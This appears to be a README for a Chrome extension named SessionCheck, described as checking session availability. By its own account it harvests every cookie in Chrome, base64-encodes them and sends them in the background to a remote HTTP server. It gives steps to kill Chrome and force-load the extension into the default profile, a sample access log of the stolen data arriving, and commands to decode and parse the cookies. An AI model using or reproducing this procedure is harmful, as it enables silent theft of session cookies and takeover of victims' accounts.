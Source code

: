 # SessionCheck
SessionCheck is a Chrome extension to check session availability.

## Usage

Load the extension. It retrieve all cookies stored in Chrome and send them to a remote HTTP server in the background. Note that cookies are encoded with base64, then sent as a parameter value.

Typical way to use SessionCheck:

1. Launch an HTTP server to retrieve session information
1. Place SessionCheck under a directory
1. Terminate all Chrome processes
1. Launch Chrome again with `--load-extension` and `--profile-directory`
1. SessionCheck sends session information to the HTTP server
1. You can see the session information in the access log (see the Example section)

## Example

```
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000000&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000001&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000002&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000003&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000004&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000005&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000006&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000007&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000008&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX= HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
```


## Note

The following commands related to session check might help you for the session check.

Kill all Chrome processes:

```
taskkill /f /im:chrome.exe
```

Load this extension:

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --profile-directory="Default" --load-extension="C:/Path/to/SessionCheckDirectory" --restore-last-session
```

Base64 decode:
```
certutil -decode b64text.txt decoded.json
```

Extract cookie data from access.log
```
python3 ./parsesession.py -i test1234 -f ./access.log > cookie.json
```
